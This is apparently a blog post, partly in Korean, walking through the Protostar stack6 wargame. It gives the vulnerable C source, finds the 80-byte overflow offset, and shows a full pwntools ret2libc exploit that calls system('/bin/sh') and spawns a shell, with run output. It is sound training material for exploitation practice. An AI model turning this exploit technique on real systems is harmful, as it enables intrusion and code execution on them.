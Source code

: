 ```yaml
---
layout: post
title: "[exploit-exercise] Protostar stack6"
date: 2017-06-04 02:00:00이
description: "Wargmae Protostar 문제풀이"
category: wargame
tags:  [rop, ret2libc]
---
```


[Protostar Stack6 - Exploit Exercises](https://exploit-exercises.com/protostar/stack6/)

>Stack6 looks at what happens when you have restrictions on the return address.
>
>This level can be done in a couple of ways, such as finding the duplicate of the payload (objdump -s) will help with this), or ret2libc, or even return orientated programming.
>
>It is strongly suggested you experiment with multiple ways of getting your code to execute here.
>
>This level is at /opt/protostar/bin/stack6

<!--more--> 

## Source

```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

void getpath()
{
  char buffer[64];
  unsigned int ret;

  printf("input path please: "); fflush(stdout);
  gets(buffer);
  ret = __builtin_return_address(0);

  if((ret & 0xbf000000) == 0xbf000000) {
      printf("bzzzt (%p)\n", ret);
      _exit(1);
  }

  printf("got path %s\n", buffer);
}

int main(int argc, char **argv)
{
  getpath();
}
```


## Analysis

```
pwndbg> checksec
[*] '.../wargame/protostar/stack6/stack6'
    Arch:     i386-32-little
    RELRO:    No RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE (0x8048000)
    RWX:      Has RWX segments
```



## Vulnerability

BoF 는 80bytes 이후에 발생.

```
gef➤  pattern create 100
[+] Generating a pattern of 100 bytes
aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaa
[+] Saved as '$_gef0'

gef➤  c
Continuing.
input path please: aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaa
got path aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaauaaaraaasaaataaauaaavaaawaaaxaaayaaa

Program received signal SIGSEGV, Segmentation fault.
...
0x61616175 in ?? ()

gef➤  pattern search 0x61616175
[+] Searching '0x61616175'
[+] Found at offset 80 (little-endian search) likely
[+] Found at offset 77 (big-endian search)
```


## Exploit

### ASLR off

Protostar VM 은 `pwntools`도 없고, `socat` 으로 디버깅하면 잘 안되고 해서... 로컬에서 ASLR off 하고 풀이해보는 걸로...

```bash
$ sudo sysctl -w kernel.randomize_va_space=0
kernel.randomize_va_space = 0
```


### ret2libc

기본적인 ret2libc 로 exploit 구성 가능.

```python
ROP = "A" * 80
ROP += p32(system_addr)
ROP += "B"*4
ROP += p32(binsh_string)
```


### `system`, `/bin/sh` 주소 얻기

```
gdb-peda$ p system
$2 = {<text variable, no debug info>} 0xf7e37060 <__libc_system>

gdb-peda$ find "/bin/sh"
Searching for '/bin/sh' in: None ranges
Found 1 results, display max 1 items:
libc : 0xf7f5b84f ("/bin/sh")
```


## Exploit code

```python
from pwn import *
import time

HOST = '127.0.0.1'
PORT = 4000

local = True

if local:
    conn = process("./stack6")
else:
    conn = remote(HOST, PORT)

elf = ELF("./stack6")

gdb.attach(conn)

"""
gdb-peda$ p system
$2 = {<text variable, no debug info>} 0xf7e37060 <__libc_system>
"""
system_addr = 0xf7e37060

"""
gdb-peda$ find "/bin/sh"
Searching for '/bin/sh' in: None ranges
Found 1 results, display max 1 items:
libc : 0xf7f5b84f ("/bin/sh")
"""
binsh_string = 0xf7f5b84f

ROP = "A" * 80
ROP += p32(system_addr)
ROP += "B"*4
ROP += p32(binsh_string)

print "[+] ROP={}\n".format(ROP)

conn.sendline(ROP)

""" interactive
"""
conn.interactive()
```


## Execution

```bash
$ python solv.py
[+] Starting local process './stack6': pid 15184
[*] '.../wargame/protostar/stack6/stack6'
    Arch:     i386-32-little
    RELRO:    No RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE (0x8048000)
    RWX:      Has RWX segments
[*] running in new terminal: /usr/bin/gdb -q  "/media/psf/Home/_2O2L2H/github/awesome-ctf-wargame/wargame/protostar/stack6/stack6" 15184
[+] Waiting for debugger: Done
[+] ROP=AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA`pBBBBO\xb8

[*] Switching to interactive mode
input path please: got path AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA`pAAAAAAAAAAAA`pBBBBO\xb8
$                                                                                                                       id
uid=1000(tkhwang) gid=1000(tkhwang) groups=1000(tkhwang),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),121(lpadmin),131(sambashare)
$ pwd
/.../wargame/protostar/stack6
```








